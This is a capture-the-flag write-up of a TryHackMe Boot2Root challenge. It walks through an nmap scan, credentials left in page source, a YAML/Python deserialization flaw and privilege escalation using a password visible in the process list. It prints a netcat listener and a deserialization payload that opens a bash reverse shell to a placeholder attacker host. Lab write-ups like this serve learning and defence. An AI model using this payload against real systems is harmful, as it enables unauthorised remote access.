


# Beach Bar

## Objective

This is the fifth challenge from [TryHackMe](https://tryhackme.com)'s **Hacker Holidays 2026**, focusing on **Boot2Root**.

The objective was to obtain both the **user flag** and the **root flag** by exploiting vulnerabilities on the target machine.

## Investigation Steps

I began the assessment by performing an Nmap scan against the target.

```bash
nmap -sC -sV -oN nmap/initial <IP_ADDRESS>
```

The scan revealed two open ports:

- **22 (SSH)**
- **80 (HTTP)**

After discovering the web server, I visited the website and explored its functionality. I also inspected the page source and found credentials for a demo user.

Using these credentials, I successfully logged into the application. While exploring the available functionality, I discovered an **insecure deserialization** vulnerability that allowed arbitrary Python object deserialization.

To gain remote access, I first started a Netcat listener on my attacking machine.

```bash
nc -lnvp <PORT>
```

I then supplied a malicious serialized payload that executed a reverse shell.

```yaml
!!python/object/apply:os.system [
  "bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1'",
]
```

The payload executed successfully, providing a reverse shell on the target machine.

After obtaining access, I explored the user's home directory and located the **user flag**.



The remaining objective was to obtain the **root flag** through privilege escalation.

I enumerated the running processes using:

```bash
ps aux
```

During the process review, I identified the password used by the **jukebox** process. I attempted to authenticate as the **root** user using this password, which was successful. With root access, I retrieved the final flag.



## Final Thoughts

This challenge combined several common attack techniques into a single Boot2Root scenario. It began with basic reconnaissance using **Nmap**, followed by source code inspection that revealed exposed credentials. After authenticating, I exploited an insecure deserialization vulnerability to obtain a reverse shell.

The privilege escalation phase demonstrated the importance of properly handling sensitive information on a system. Credentials exposed through running processes can allow attackers to escalate privileges if they are reused or inadequately protected. Overall, the challenge highlighted the importance of secure coding practices, protecting secrets, and following the principle of least privilege to reduce the impact of a compromise.
